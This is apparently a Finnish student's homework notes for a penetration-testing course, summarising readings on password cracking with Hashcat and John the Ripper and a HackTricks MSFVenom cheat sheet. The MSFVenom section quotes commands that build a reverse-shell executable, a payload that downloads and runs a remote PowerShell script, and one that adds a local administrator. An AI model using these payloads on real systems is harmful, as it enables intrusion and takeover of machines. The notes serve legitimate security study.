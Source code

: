 # H4 - Marraskuu2024!
##### Pentesting course taught by Tero Karvinen @ Haaga-Helia

## x) Lue/Katso ja tiivistä
### Karvinen 2022: Cracking Passwords with Haschat
- Plaintext-salasanojen sijaan järjestelmät tallentavat hasheja. Hashia ei voi muuttaa takaisin salasanaksi
- Samalla hashaus-menetelmällä hashatut salasanat antavat aina saman hashin, eli jos menetelmä on tiedossa niin sama salasana antaa saman hashin.
- Hashcat tarvitsee sanakirjan jonka avulla se voi vertailla salasanojen hasheja kräkättävään hashiin

### Karvinen 2023: Crack File Password with John
- Mikäli .zip-tiedoston sisältö on enkryptattu, tiedosto voidaan kyllä purkaa mutta kansio on tyhjä
- Jumbo John pystyy kräkkäämään suuren määrän eri tiedostomuotoja
- John käyttää myös sanakirjahyökkäystä
- Jumbo Johnista on myös maksullinen versio, mutta seuraamalla Teron ohjetta artikkelista sen saa koottua git:in avulla ilmaiseksi

### € Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials
- Suurin osa järjestelmistä säilyttää salasanoja käyttäjätunnuksia ja salasanoja tietokannassa tai tekstitiedostossa
- Puolustajan näkökulmasta, säilöttyjen salasanojen lisäksi heidän tarvitsee suojata myös verkkoliikenteessä liikkuvia salasanoja
- John the Ripper käyttää oletuksena sanakirjanaan listaa yleisimmistä ihmisten käyttämistä salasanoista. Listaan voi lisätä omia salasanojaan, tai sitten voit luoda kokonaan uuden listan

### Polop et al 2024: HackTricks: MSFVenom
- MSFVenom on työkalu jolla saa tehtyä omia haittaohjelmia
- Hyökkääjän kannalta h yödyllisiltä kommenoilta vaikuttavat ne jotka luovat Shell yhteyden, tai suorittavat komennon:
  - Reverse Shell (Kohde kone avaa itse yhteyden hyökkääjäkoneeseen):
 
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
  - Execute Command:

        msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
        msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
- Nämä komennot ovat erityisesti Windows-ympäristöihin

# Lähteet:

- Karvinen, T. 2022. Cracking Passwords with Hashcat. Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/. Luettu: 20.11.2024
- Karvinen, T. 2023. Crack File Password with John. Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/. Luettu: 20.11.2024
- Santos, O., Sternstein, J., Taylor, R., McCoy, C. 2017. Security Penetration Testing - The Art of Hacking Series. Video. Katsottavissa: https://learning.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/. Katsottu: 21.11.2024
- HackTricks s.a. MSFVenom - CheatSheet. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom. Luettu: 20.11.2024

